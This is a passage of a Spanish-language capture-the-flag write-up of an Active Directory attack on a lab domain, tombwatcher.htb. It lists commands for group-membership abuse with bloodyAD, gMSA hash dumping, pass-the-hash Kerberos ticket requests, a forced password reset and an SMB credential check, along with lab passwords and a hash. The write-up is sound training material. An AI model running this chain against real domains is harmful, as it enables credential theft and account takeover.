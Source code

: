 Chequeamos el usuario `alfred` en `Bloodhound`

<img width="1920" height="1016" alt="image" src="https://github.com/user-attachments/assets/714d318d-88af-46a4-868b-38c3e19326ec" />


el proximo paso sera agregar el usuario `Alfred` al grupo `INFRASTRUCTURE`

```bash
bloodyAD -d tombwatcher.htb --host DC01 -u 'alfred' -p 'basketball' add groupMember "INFRASTRUCTURE" "Alfred"
```

<img width="1920" height="217" alt="image" src="https://github.com/user-attachments/assets/db86f7bb-90bd-4da6-8ab5-bf512d02d270" />

continuamos revisando la relacion en `Bloodhound`

<img width="1920" height="1015" alt="image" src="https://github.com/user-attachments/assets/263886eb-208c-4f24-83f9-8109f8b36f4f" />

## Extraccion de hash NTML de una cuenta `gMSA`

Como se observo en `Bloodhound` es posible abusar de este permiso siendo miembro del grupo `Infrastructure`, como ya somos miembros del grupo podemos abusar de esto y obtener el hash `NTLM`

```bash
gMSADumper -u 'alfred' -p 'basketball' -d tombwatcher.htb
```

<img width="1920" height="238" alt="image" src="https://github.com/user-attachments/assets/b89f094d-569a-46ed-8fb8-84aa21022dc9" />

continuamos observando en bloodhound que acciones puede hacer esta cuenta de maquina `ansible_dev$`

<img width="1920" height="1009" alt="image" src="https://github.com/user-attachments/assets/cbd651d0-b334-45dd-b663-17fafe3ba42d" />

La siguiente accion es cambiar la password del usuario `SAM`

>>> Primero vamos a solicitar un ticket Kerberos de la cuenta de maquina `ansible_dev$` y seteamos la variable de entorno KRB5CCNAME con el ticket generado

```bash
impacket-getTGT tombwatcher.htb/'ansible_dev$' -hashes :7bc5a56af89da4d3c03bc048055350f2 # solicitud del ticket kerberos
```
```bash
export KRB5CCNAME=ansible_dev\$.ccache
```

<img width="1920" height="194" alt="image" src="https://github.com/user-attachments/assets/573ac04d-9955-40a0-8103-3fd8b874a482" />

ahora si procedemos con el cambio de password para el usuario `SAM`

```bash
bloodyAD -d tombwatcher.htb --host DC01 -k set password 'SAM' 'Darksblack10*'
```

Testeamos las credenciales via SMB

```bahs
nxc smb DC01.tombwatcher.htb -u 'SAM' -p 'Darksblack10*' --shares
```
